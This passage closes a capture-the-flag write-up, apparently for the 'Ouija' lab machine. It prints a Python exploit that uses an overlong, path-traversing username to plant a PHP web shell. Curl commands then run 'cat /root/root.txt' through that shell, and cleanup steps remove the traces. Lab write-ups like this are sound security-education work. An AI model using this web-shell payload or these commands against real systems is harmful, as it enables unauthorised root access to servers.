# With <3 from Bryan McNulty
import requests, os

dummy_dir = '/dev/shm/<?=`$_GET[7]`;?>'
path = f'{dummy_dir}/../../../development/server-management_system_id_0/sBWtMe7v0MFR.php'

payload = '/' * (0x320 - len(path))
payload += path
payload += 'X' * (0x10000 - 0xa - len(payload))

os.makedirs(dummy_dir, exist_ok=True)

requests.post('http://localhost:9999/index.php', data={
	'username': payload,
	'password': 'demopass'})
```
{:file="lverifier_webshell.py"}

With the exploit copied to the remote host, We simply executed it and accessed the root web shell. Once the root flag was collected, we made sure to clean up our tracks.

```bash
# Run exploit -> read root flag
python3 /tmp/r1N9zK.py # run the exploit script
curl "http://localhost:9999/sBWtMe7v0MFR.php" -sG --data-urlencode "7=cat /root/root.txt"

# Clean up for others
rm -rf /tmp/r1N9zK.py \
  '/dev/shm/<?=`$_GET[7]`;?>' \
  /development/server-management_system_id_0/sBWtMe7v0MFR.php
```
{:file="leila@ouija ➤ bash" .nolineno}


## Resources

[^tool-feroxbuster]: Speedy web content discovery tool - [FeroxBuster](https://github.com/epi052/feroxbuster)
[^tool-katana]: Advanced web crawler - [Katana by ProjectDiscovery](https://github.com/projectdiscovery/katana)
[^tool-ffuf]: Fast multipurpose web fuzzer - [FFuF (Fuzz Faster U Fool)](https://github.com/ffuf/ffuf)
[^software-gitea]: Self-hosted DevOps platform - [Gitea (Git with a cup of tea)](https://about.gitea.com/)
[^software-haproxy]: TCP/HTTP load balancer and proxy - [HAProxy](https://www.haproxy.org/)
[^software-docker]: Platform for deploying and managing containerized applications - [Docker](https://www.docker.com/)
[^software-express]: JavaScript web application framework - [Node.js Express](https://expressjs.com/)
[^tool-hash_extender]: Utility to assist in exploitation of secret-prefix MAC implementations - [Hash Extender by Ron Bowes](https://github.com/iagox86/hash_extender)
[^tool-radare2]: Unix-like reverse engineering framework - [Radare2](https://github.com/radareorg/radare2)
